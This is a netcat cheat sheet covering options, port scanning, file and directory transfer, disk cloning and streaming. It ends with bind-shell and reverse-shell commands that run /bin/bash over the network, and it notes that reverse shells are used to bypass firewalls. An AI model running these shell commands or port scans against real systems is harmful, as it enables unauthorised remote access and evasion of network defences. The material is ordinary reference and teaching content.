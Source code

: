 ```yaml
---
title: nc - netcat
date: 2020-11-25 18:28:43
icon: icon-netcat
background: bg-blue-600
tags: 
    - nc
categories:
    - Command
intro:  This cheat sheet provides various for using Netcat on both Linux and Unix.
---
```


Getting started {.cols-5}
---------------

### Usage {.col-span-2}

Connect to a host located anywhere

```
nc [options] [host] [port]
```

Listen for incoming connections
```
nc -lp port [host] [port]
```

Arbitrary TCP and UDP connections and listens.



### Option examples {.col-span-3}

| Option | Description                 | Example                                            |
|--------|-----------------------------|----------------------------------------------------|
| `-h`     | nc -h                       | Help                                               |
| `-z`     | nc -z 192.168.1.100 1-100        | Port scan for a host or IP address                 |
| `-v`     | nc -zv 192.168.1.100 1-100     |   Provide verbose output   | 
| `-n`     | nc -zn 192.168.1.100 1-100     | Fast scan by disabling DNS resolution              |
| `-l`     | nc -lp 8090                 | TCP Listen mode _(for inbound connects)_                                   |
| `-w`     | nc -w 180 192.168.1.100 8090     | Define timeout value                               |
| `-k`     | nc -kl 8090 | Continue listening after disconnection |
| `-u`     | nc -u 192.168.1.100 8090 | Use UDP instead of TCP |
| `-q`     | nc -q 1 192.168.1.100 8090 | Client stay up after EOF |
| `-4`     | nc -4 -l 8090 | IPv4 only                                          |
| `-6`     | nc -6 -l 8090 | IPv6 only                                          |


Examples {.cols-3}
--------

### Banner grabbing
```
$ nc website.com 80
GET index.html HTTP/1.1
HEAD / HTTP/1.1
```
or
```
echo "" | nc -zv -wl 192.168.1.1 801-805
```

### Port scanning

Scan ports between 21 to 25
```
nc -zvn 192.168.1.1 21-25
```

Scan ports 22, 3306 and 8080
```
nc -zvn 192.168.1.1 22 3306 8080
```


### Proxy and port forwarding
```
nc -lp 8001 -c "nc 127.0.0.1 8000"
```
or
```
nc -l 8001 | nc 127.0.0.1 8000
```
Create a tunnel from one local port to another


### Chat client-server
Server (192.168.1.100)
```
nc -l 8090
```

Client
```
nc 192.168.1.100 8090
```

After this whatever you type on machine B will appear on A and vice-versa.


### Download file

Server (192.168.1.100)
```
nc -l 8090 < file.txt
```

Client
```
nc -n 192.168.1.100 8090 > file.txt
```

Suppose you want to transfer a file “file.txt” from server A to client B.


### Upload file

Server (192.168.1.100)
```
nc -l 8090 > file.txt
```

Client
```
nc 192.168.1.100 8090 < file.txt
```

Suppose you want to transfer a file “file.txt” from client B to server A:


### Directory transfer

Server (192.168.1.100)
```
tar -cvf – dir_name | nc -l 8090
```

Client
```
nc -n 192.168.1.100 8090 | tar -xvf -
```

Suppose you want to transfer a directory over the network from A to B.


### Encrypt transfer {.col-span-2}


Server (192.168.1.100)
```
nc -l 8090 | openssl enc -d -des3 -pass pass:password > file.txt
```

Client
```
openssl enc -des3 -pass pass:password | nc 192.168.1.100 8090
```

Encrypt data before transfering over the network



### Clones

Server (192.168.1.100)
```
dd if=/dev/sda | nc -l 8090
```

Client
```
nc -n 192.168.1.100 8090 | dd of=/dev/sda
```

Cloning a linux PC is very simple. Suppose your system disk is /dev/sda



### Video streaming

Server (192.168.1.100)
```
cat video.avi | nc -l 8090
```

Client
```
nc 192.168.1.100 8090 | mplayer -vo x11 -cache 3000 -
```

Streaming video with netcat




### Remote shell

Server (192.168.1.100)
```
nc -l 8090 -e /bin/bash -i
```

Client
```
nc 192.168.1.100 8090
```

We have used remote Shell using the telnet and ssh but what if they are not installed and we do not have the permission to install them, then we can create remote shell using netcat also.



### Reverse shell

Server (192.168.1.100)
```
nc -l 8090
```

Client
```
nc 192.168.1.100 8090 -e /bin/bash
```

Reverse shells are often used to bypass the firewall restrictions like blocked inbound connections

